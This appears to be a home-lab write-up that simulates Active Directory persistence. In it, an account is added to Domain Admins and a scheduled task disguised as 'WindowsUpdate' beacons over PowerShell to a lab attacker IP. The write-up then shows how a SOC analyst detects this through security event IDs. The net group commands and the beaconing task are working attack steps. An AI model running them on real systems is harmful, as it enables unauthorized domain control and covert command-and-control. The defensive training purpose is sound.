







# Phase-3 Incident-01 Lab  
## Persistence Establishment via Domain Account Manipulation

---

## Objective

Simulate attacker transition from domain compromise to persistent access by creating a secondary privileged identity in Active Directory.

This lab generates telemetry required for the Phase-3 incident report.

---

## Lab Topology

- **DC01** — Domain Controller  
- **WS01** — Previously compromised workstation  
- **ATTACKER** — Kali or Windows attack VM  

---

## Step 0 — Precondition (From Phase 2)

The attacker has achieved domain-level access by performing Pass-the-Hash from WS01 to DC01 using previously extracted NTLM credentials.

This resulted in remote administrative execution on the Domain Controller.

---

## Step 1 — Identify Existing Service Account

### Verify svc_backup exists

```
net user svc_backup /domain
```

Expected:
- Account does not exist

### Create svc_backup



---

### Reasoning

Attackers prefer existing service accounts because:

- Less suspicious than new accounts  
- Often poorly monitored  
- Blend into enterprise operations  

However, in this lab, attacker will be creating a conspicious svc account and domain group. 

---

## Step 2 — Escalate Service Account to Domain Admin

### Add svc_backup to Domain Admins
```
net group "Domain Admins" svc_backup /add /domain
```

---

### Verify membership
```
net group "Domain Admins" /domain
```


Expected:
- `svc_backup` appears in Domain Admins  



---

### Reasoning

Attacker adding a new group that looks legitimate to prevvent further attention.

---

## Step 3 — Validate Persistence

### Log into DC01 using:

corp\svc_backup  
Password: Password123@

---

### Verify identity
```
whoami /groups
```


Expected:
- Membership includes Domain Admins  


---

### Verify Domain Admin control
```
net group "Domain Admins" /domain
```

---

### Reasoning

Persistence is confirmed if:

- Access survives loss of original compromised account  
- Attacker retains domain-level privileges independently  

---

## Step 4 — Simulate C2 Beaconing

### Run:
```
ping 192.168.56.10 -t
schtasks /create /sc minute /mo 5 /tn "WindowsUpdate" /tr "powershell -c Invoke-WebRequest http://192.168.56.10"
```
---

### Observe:

- Continuous outbound traffic  
- Create a task that pings to attacker every 5 minutes
- Next lab will be expanding on the beaconing portion



---

### Reasoning

This simulates:

- Initial command-and-control communication  
- Beaconing behaviour from compromised infrastructure  

---

## Step 5 — SOC Analyst Investigation

### Open Event Viewer

- Press `Win + R`
- Type: `eventvwr.msc`

---

### Navigate to:

Windows Logs → Security

---

### Check Event ID 4728 (Privileged Group Addition)



---

### Check Event ID 4624 (Logon) and 4672 (Privileged Access)



---

## Step 6 — Investigation Correlation

Reconstruct attacker activity:

- svc_backup added to Domain Admins  
- Administrative logon observed  
- Privileged access assigned  

---

### Timeline

- 3/30/2026 11:43:49AM  → Group membership modified (4728)  
- 3/30/2026 11:48:44AM  → Admin logon (4624)  
- 3/30/2026 11:48:44AM → Privileged session established (4672)  


---

### Detection Insight

Sequence indicates:

- Privilege escalation via identity modification  
- Persistence establishment using trusted account  

---

## Lab Conclusion

The attacker successfully established persistent domain-level access by abusing an existing service account and elevating it to Domain Administrator privileges.

This ensures continued access even if:

- WS01 is remediated  
- Original compromised credentials are revoked  

Outbound communication simulation demonstrates early-stage command-and-control behaviour.

This phase transitions the attack from:

**Access → Control Durability**